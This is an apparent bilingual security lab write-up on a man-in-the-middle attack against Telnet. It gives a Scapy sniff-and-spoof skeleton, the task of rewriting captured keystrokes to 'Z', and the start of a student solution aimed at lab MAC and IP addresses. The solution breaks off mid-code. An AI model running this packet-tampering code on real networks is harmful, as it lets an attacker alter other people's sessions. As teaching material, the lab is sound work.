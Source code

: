 一个嗅探-欺骗程序的框架展示如下：

```python
#!/usr/bin/python
from scapy.all import *

def spoof_pkt(pkt):
	print("Original Packet.	")
	print("Source IP : ", pkt[IP].src)
	print("Destination IP :", pkt[IP].dst)

	a = IP()
	b = TCP()
	data = pkt[TCP].payload
	newpkt = a/b/data

	print("Spoofed Packet.	")
	print("Source IP : ", newpkt[IP].src)
	print("Destination IP :", newpkt[IP].dst)
	send(newpkt)

pkt = sniff(filter='tcp',prn=spoof_pkt)
```

<br>

The above program sniffs all the TCP packets and then spoof a new TCP packet based on the captured packets. Please make necessary changes to distinguish（区分，辨别） whether a packet is sent from A or B. If it is sent from A, set all the attribute names/values of the new packet to be the same as those of the original packet, and replace each alphanumeric（一个字母或数字的字符） characters in the payload (usually just one character in each packet) with character Z. If the captured packet is sent from B, no change will be made.

以上程序监听了所有TCP数据包并且还基于捕获的数据包冒充了一个新的TCP包。请做必要的改变来区分是从A还是B发送了数据包。如果从A发送数据包，则设置新的数据包的所有属性名/值和原始数据包一致，并在负载（一般在每个数据包中都只有一个字符，注：telnet是每发送一个字符就封装一个包发出）中用Z替换每个字符。如果捕获的数据包是从B发送出去的，则不做任何改变。

In Telnet, every character we type in the Telnet window will trigger a TCP packet. Therefore, in a typical （典型）Telnet packet from client to server, the payload only contains one character. The character will then be echoed back by the server, and the client will then display the character in its window. Therefore, what we see in the client window is not the direct result of the typing; whatever we type in the client window takes a round trip before it is displayed. If the network is disconnected, whatever we typed on the client window will not displayed, until the network is recovered. Similarly（同样的）, if attackers change the character to Z during the round trip, Z will be displayed at the Telnet client window.

在telnet中，我们在telnet窗口输入的每个字符将会触发一个TCP包。因此，在一个从客户端发往服务器的典型数据包中，负载仅包含一个字符。因此，我们在客户端窗口看到的东西不是输入后的直接结果；不论我们在客户端窗口中输入什么，都需要经过返程才能显示。如果网络被关闭，不论我们在客户端窗口输入什么都将不会被显示，直到网络恢复。同样，如果攻击者在往返过程中将字符更改为Z，则Z将显示在Telnet客户端窗口中。

> 1. 欺骗程序代码如下
>
>    ```python
>    #!/usr/bin/python
>    from scapy.all import *
>    
>    def spoof_pkt(pkt):
>    	if pkt[Ether].src =='08:00:27:04:d9:58' and  pkt[IP].src == "10.0.2.15" and pkt[IP].dst == '10.0.2.5' :
>    		print("Original Packet. ")
>    		print("Source IP : ", pkt[IP].src)
>    		print("Destination IP :", pkt[IP].dst)
>            
>    		a = IP(src = "10.0.2.15",dst = "10.0.2.5")
>    		b = TCP(sport = pkt[IP].sport,dport = pkt[IP].dport)
>    		pkt[TCP].payload = 'z'
>    		data = 'z'
>    		newpkt = a/b/data